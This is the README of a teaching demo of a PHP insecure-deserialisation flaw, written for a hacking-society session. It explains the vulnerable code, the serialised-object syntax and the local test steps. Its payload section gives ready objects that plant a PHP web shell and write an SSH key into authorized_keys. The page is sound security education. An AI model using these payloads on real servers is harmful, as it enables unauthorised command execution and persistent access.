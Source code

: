 # Deserialisation Demo
I wrote this demo for our [Advanced Web Hacking](https://shefesh.com/assets/wiki/Advanced%20Web%20Hacking%20-%20PDF.pdf) session.

It is a demo of a very simple PHP Deserialisation Vulnerability. You can view more about Deserialisation in the slides linked above.

## Demo Code

The repository is available at: [https://github.com/Twigonometry/Deserialisation-Demo](https://github.com/Twigonometry/Deserialisation-Demo)

### The Vulnerable Code

#### unsafe.php

This represents a simple web application that constructs a `SignupForm` object and writes to a file when the `__destruct()` [magic method](https://www.php.net/manual/en/language.oop5.magic.php) is called. It accepts the GET parameter `username`, which it uses to write a username to a list of users who have signed up. It does this using the class' `parse_username()` and `__destruct()` functions.

#### The Vulnerability

The class variables `$outfile` and `$username_string` are normally set by the `parse_username()` method. However, an attacker can craft a `SignupForm` object manually and set these variables to whatever they like. If this is passed to the `username` GET parameter it is deserialised and the `__destruct` method is automatically called. This skips the `parse_username()` method and overrides the variables, meaning their attacker-controlled values are used in the `file_put_contents()` call.

The vulnerability only exists because untrusted data (i.e. user input) is passed directly to the `unserialize()` function. Remove this line, and the vulnerability is fixed. In fact, it's not even needed to make this program work - it is there just to teach about the mechanics of the vulnerability, but there may be situations where `unserialize()` may have a genuine use case - for example, frameworks like Laravel serialise PHP Objects that represent users. In this case, developers must ensure that no untrusted data is involved in this deserialisation, either directly or 'upstream' when data is passed from a database or similar connected service.

### The Exploit

#### generate-object.php

This is a recreation of the class being used on the web application, as could be created by an attacker with a 'whitebox' view of the web app's `unsafe.php` file.

It creates an instance of the class, with preset values that are used when the object is deserialised. The `$username_string` variable determines the contents that will be written to the file, and the `$outfile` variable determines the path (within the web server's directory). Change these to change the behaviour of your payload.

By default, the object looks like this:

```
O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}
```

The syntax is as follows:
- `O` tells us the type is an 'object'
- `10` tells us the character length of the class name `SignupForm`
- `2` tells us the number of variables within the object
- Within the curly brackets `{ }` are the object variables. They follow a similar structure, with each one having a type (`s` meaning 'string'), a variable name and length (`7:"outfile"`), and a value (a string (`s`), `10` characters long, called `"gotcha.txt"`). The variable names and values, and each pair thereof, are separated by semicolons `;`.

This will write the string "malicious stuff goes here" to the `gotcha.txt` file. Pretty harmless, but it should show you how the exploit works!

You can, of course, create these manually - but counting the length of a load of variable names is a pain and it's easy to make a syntax mistake!

#### Triggering the Attack

A serialised object must be generated (see `generate-object.php`) and then passed to the `username` GET parameter. To test this locally, run your webserver:

```
$ php -S localhost:5000
```

Change your payload by editing the `$username_string` and `$outfile` variables in `generate-object.php`, then make a request to get your object:

```
$ curl localhost:5000/generate-object.php
```

Then make a request to the page, passing your object to the `username` GET parameter:

```
http://localhost:5000/unsafe.php?username={SERIALISED OBJECT HERE}
```

*Note:* If you use curl, bash may throw a fit at your curly brackets. You can either visit the URL in your browser, or use the `--globoff` flag to [escape the brackets](https://stackoverflow.com/questions/8333920/passing-a-url-with-brackets-to-curl)

Here is the request we made, using our malicious object:

```
http://localhost:5000/unsafe.php?username=O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}
```

The `gotcha.txt` file should now appear in the webserver directory!

*Another Note:* Remember, anything you put in your payload happens on *your* machine - if someone monitors your installation directory for naughty `.txt` files and you write something you shouldn't have, don't come crying to us.

#### Exploit Payloads

Our example exploit writes something fairly harmless to `gotcha.txt`, demonstrating the vulnerability. However, there are lots of ways to exploit arbitrary file write, even within the constraints of the current directory. Here are a couple of examples:

**Write a Web Shell**

This won't necessarily allow you to escalate priveleges, but it lets you perform more actions on the box besides writing to files. You will have the permissions of the user who is running the web server (don't run your web servers as root!)

Here's the serialised object for a cheeky one-line PHP shell:

```
O:10:"SignupForm":2:{s:7:"outfile";s:7:"cmd.php";s:15:"username_string";s:29:"<?php system($_GET['cmd']);?>";}
```

If you're editing the `$username_string` variable here, you may need to escape the `$` character as follows: `public $username_string = "<?php system(\$_GET['cmd']);?>";`

**Write an SSH key**

The file location is limited by the `__DIR__` prefix. However, if for some ungodly reason this webserver was hosted in a user's home directory, a payload such as the following could write an SSH key to the `.ssh/authorized_keys` file. Like the above, this doesn't escalate your priveleges but grants you a more interactive shell.

Here's the object:

```
O:10:"SignupForm":2:{s:7:"outfile";s:20:".ssh/authorized_keys";s:15:"username_string";s:20:"YOUR ID_RSA.pub HERE";}
```

I shouldn't have to say this, but "YOUR ID_RSA.pub HERE" is not a valid SSH key. If you want this to work, make sure to replace it (ideally in the `generate-object.php` file itself, so it calculates the length for you)

## Acknowledgements

Thanks to a recent Hack the Box for the inspiration... I won't say which, as it's live! But now you know how this works, go out and find it and root it...

# Tags

#project #deserialisation #web 